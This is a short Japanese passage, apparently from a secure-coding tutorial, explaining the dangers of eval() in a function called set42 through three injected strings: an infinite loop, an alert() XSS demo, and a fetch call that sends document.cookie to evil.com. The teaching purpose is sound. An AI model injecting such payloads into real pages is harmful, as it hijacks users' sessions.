 ### システムに負荷を与える例

set42("while(true){}");

- eval("while(true){} = 42;") の while(true){} が先に評価されて、無限ループに突入
- 結果として CPU使用率が上がり、ブラウザがフリーズ する

### セキュリティの問題となる例（XSS）

set42("alert('warning!!!!!')");

- ブラウザで実行すると alert() が実行される　→　ブラウザでポップアップ（開発者の意図しない動作）
- 補足：XSS（Cross-Site Scripting）とは、悪意のあるスクリプトをWebページ上に埋め込み、他のユーザーのブラウザで実行させる攻撃です。

### セキュリティの問題となる例（情報漏洩）

set42("fetch('https://evil.com?d=' + document.cookie)");

- 外部サイトにdocument.cookie でログイン中のセッション情報を送信、盗み見の危険性あり
